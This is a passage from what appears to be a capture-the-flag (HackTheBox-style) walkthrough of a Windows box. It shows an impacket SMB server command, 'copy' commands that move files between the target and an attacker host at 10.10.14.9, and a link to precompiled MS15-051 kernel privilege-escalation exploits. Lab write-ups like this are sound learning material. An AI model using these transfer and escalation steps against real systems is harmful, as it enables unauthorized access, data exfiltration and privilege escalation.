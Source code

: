 ### Alternative to certutil

Start smb share at the folder where you want tranfer should be occuring.
```zsh
python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
```

Copying from Kali to Windows
```cmd
copy \\10.10.14.9\tools\test.txt
```

Copying from Windows to Kali
```cmd
copy test.txt \\10.10.14.9\tools\test.txt
```

### Alternate Privilege Esclation
MS 15's(MS15 051) MS and 16's. You can also try windows exploit suggester. Refer Optimum's solution of mine. Download it from the list of compiled binaries.Link here
>https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051/Compiled
Download the 64 bit one. Should work as a charm.


Attached all the files needed to do this box.

That's all for this guys. See you next time with 'Granny'.


